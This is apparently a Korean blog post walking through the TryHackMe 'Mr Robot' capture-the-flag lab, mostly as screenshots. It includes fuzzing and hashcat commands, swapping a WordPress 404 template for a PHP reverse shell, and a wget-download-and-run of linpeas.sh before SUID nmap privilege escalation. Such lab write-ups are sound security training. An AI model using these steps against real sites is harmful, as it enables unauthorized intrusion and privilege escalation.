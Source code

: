 ```yaml
---
title: "MrRobotCTF"
categories: 
  - tryhackme
  - pentesting
tags:
  - pentesting
toc: true
---
```

# nmap

![img](/assets/images/thm/mrrobotctf/mrrobot_nmap.png)

# ffuf

> ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.145.4/FUZZ > ffuf.txt

![img](/assets/images/thm/mrrobotctf/mrrobot_ffuf.png)

# /license 접속

- 사이트 맨 아래쪽 확인

![img](/assets/images/thm/mrrobotctf/mrrobot_license.png)

## base 64 decode

![img](/assets/images/thm/mrrobotctf/mrrobot_base64decode.png)

# /robots 접속

![img](/assets/images/thm/mrrobotctf/mrrobot_robots.png)

- hxxp://IP/key-1-of-3.txt 접속하여 플래그 확인

![img](/assets/images/thm/mrrobotctf/mrrobot_key1.png)

# /wp-login 접속

- base64 decode한 접속정보로 접속

![img](/assets/images/thm/mrrobotctf/mrrobot_wplogin.png)

- theme로 간 후 404.php를 php reverse shell.php로 변경

![img](/assets/images/thm/mrrobotctf/mrrobot_404template.png)

# shell 획득

- uid가 1인 daemon 계정 확인됨

![img](/assets/images/thm/mrrobotctf/mrrobot_nc.png)

![img](/assets/images/thm/mrrobotctf/mrrobot_ls.png)

- ls로 확인된 md5 해시에 hashcat 사용

> hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt

# robot으로 사용자 변경

> su robot

![img](/assets/images/thm/mrrobotctf/mrrobot_key2.png)

# linpeas.sh

```sh
wget hxxp://IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![img](/assets/images/thm/mrrobotctf/mrrobot_linpeas.png)

- suid가 설정된 nmap 확인

# 권한 상승

- gtfobins에 nmap 검색

![img](/assets/images/thm/mrrobotctf/mrrobot_nmapsh.png)

![img](/assets/images/thm/mrrobotctf/mrrobot_key3.png)